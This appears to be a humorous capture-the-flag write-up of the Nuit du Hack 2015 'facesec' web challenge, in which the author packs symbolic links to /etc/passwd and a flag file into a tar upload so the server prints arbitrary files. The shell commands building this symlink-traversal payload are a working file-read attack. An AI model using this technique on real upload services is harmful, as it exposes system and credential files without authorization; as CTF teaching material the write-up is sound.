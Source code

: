 ```yaml
---
layout: post
title:  "Nuit du Hack - facesec"
date:   2015-04-08 21:55:00
categories: "writeups"
tags:
- ndh
- web
excerpt: "Caught mid-thought (wondering whether faceSec's famous breakrooms carry my favorite small-batch, gluten-free, co-op produced snack food) I realized that I had failed to include my letter of motivation or done anything with that tar upload functionality.  D'oh!"
author: "anonymous_zombie"
---
```


>"Hello there,
>
>We are looking for a developer or security consultant to secure our filebox system. We stumbled upon your LinkedIn profile and it seems like you would be a perfect candidate for this job. Could you please send us your CV and Motivation letter?
>
>Thanks,
>
>faceSec HR Director."

- Points: 100
- Link: http://facesec.challs.nuitduhack.com/

We first visit the site and find that there isn't much to do without creating an account; we do so using some throw-away credentials.  After authenticating, we're informed that the site anticipates us uploading a CV and letter of motivation in a flat-file format or alternatively can upload both in a Tar file.

![Site greeter]({{ site.url }}/writeups/ndh2015/facesec/greeting.png)

Being the diligent testers we are (and oh so hopeful that we may someday work at the lofty faceSec(c)), we upload a CV that provides the sum-total of all Vegan Zombie members life experiences.  After getting an "upload successful" message, we visit our user profile page to confirm that everything worked as anticipated.

![It's what we do]({{ site.url }}/writeups/ndh2015/facesec/grains.png)

Cool!  Maybe faceSec will be impressed by our knowledge of formsubmission and animal-free diets.  Time to sit back and wait for that recruiters phone call!  Caught mid-thought (wondering whether faceSec's famous breakrooms carry my favorite small-batch, gluten-free, co-op produced snack food) I realized that I had failed to include my letter of motivation or done anything with that tar upload functionality.  D'oh!  Also, I'm lazy, let's use the tar option to upload everything at once!

{% highlight bash %}
$ ln -s /etc/passwd cv.txt
$ ln -s ../flag.txt motiv.txt
$ ls -l
	cv.txt -> /etc/passwd
	motiv.txt -> ../flag.txt
$ tar -cvf upload.tar cv.txt motiv.txt
{% endhighlight %}

Having been created without the "-k" flag, the symbolic links in the tar file should be preserved (as long as the file is also untar'd without this flag).  This will result in the application following the symbolic link when it attempts to open the file to print it out giving us the contents of arbitrary server files.  In this case, we get the contents of /etc/passwd which contain the flag: *W00tSymL1nkAttackStillW0rksIn2k15*.

![Yay flags]({{ site.url }}/writeups/ndh2015/facesec/flag.png)

Yeah, on second thought, I don't think I wanted to work for faceSec(c) anyways.
